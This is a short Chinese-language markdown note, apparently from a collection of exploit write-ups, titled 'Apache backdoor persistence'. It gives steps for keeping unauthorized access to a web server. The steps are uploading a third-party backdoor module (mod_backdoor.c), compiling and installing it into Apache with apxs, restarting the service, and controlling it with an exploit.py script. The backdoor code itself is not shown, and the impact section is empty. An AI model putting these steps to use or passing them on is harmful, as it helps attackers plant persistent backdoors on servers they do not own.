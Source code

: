 Apache后门维持
==============

一、漏洞简介
------------

通过运行第三方脚本，实现维持后门的方法

二、漏洞影响
------------

三、复现过程
------------

https://github.com/ianxtianxt/apache-

### 1、上传 mod\_backdoor.c到服务器，并执行命令

    apxs -i -a -c mod_backdoor.c && service apache2 restart

![](Documents/GitHub/0day/03-Apache & Tomcat/Apache/Apache后门维持/resource/Apache后门维持/media/rId25.jpg)

### 2、控制端执行方法

    python exploit.py 127.0.0.1 80

image
